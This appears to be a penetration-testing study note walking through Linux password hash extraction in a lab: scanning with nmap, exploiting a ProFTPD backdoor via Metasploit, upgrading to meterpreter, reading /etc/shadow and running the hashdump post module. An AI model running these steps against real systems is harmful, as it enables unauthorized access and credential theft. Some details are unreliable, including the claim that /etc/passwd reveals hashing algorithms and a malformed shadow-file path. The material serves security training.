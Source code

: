 # Dumping Linux Passwort Hashes


## Linux Password Hashes
- Linux has multi-user support and as a result, multiple users can access the system simultaneously. This can be seen as both an advantage and disadvantage from a security perspective, in that, multiple accounts offer multiple access vectors for attackers and therefore increase the overall risk of the server.
- All of the information for all accounts on Linux is stored in the passwd file located in /etc/passwd
- We cannot view the passwords for the users in the passwd file because they are encrypted and the passwd file is readable by any user on the systen.
- All the encrypted passwords for the users are stored in the shadow file. It can be found in the following directory: /etc/shadow
- The shadow file can only be accessed and read by the root account, this is a very important security feature as it prevents other accounts on the system from accessing the hashed passwords.

  - The passwd file gives us information in regards to the hashing algorithm that is being used and the password hash, this is very helpful as we are able to determine the type of hashing algorithm that is being used and its strength. We can determine this by looking at the number after the username encapsulated by the dollar symbol ($)

![image](https://github.com/user-attachments/assets/e49a471f-b98a-4efb-82d5-f2b74c1a8789)

## Demo: Linux Password Hashes

We first exploit the target:

`ifconfig, eth1`

`nmap -sV [targetIP]`

We check if this version of proftpd is vulnerable to a exploit:

`searchsploit PROFTPD`

We got a Backdoor Command Execution module

`service postgresql start && msfconsole`

`setg rhosts [targetIP]`

`search proftpd`

We want the proftpd_133c_backdoor:

use [module name]

`show options`

`exploit`

We get a command shell session:

`/bin/bash -i`

`id`

We put this session in the background: CTRL + Z

`yes`

`sessions`

We upgrade our session to a meterpreter session:

`sessions -u 1`

we get a error, but thats fine

`sessions`

`sysinfo`

`getuid`

We have successfully obtained a meterpreter session.

`cat etc/shadow/`

Another technique is the metasploit hashdump module.

CTRL + Z to put the session in the background

`search hashdump`

We copy post/linux/gather/hashdump

`use post/linux/gather/hashdump`

`set SESSION 2` (our meterpreter session)

`run`

This will get the user accs that have passwords and gives us the hashed passwords and saves them.




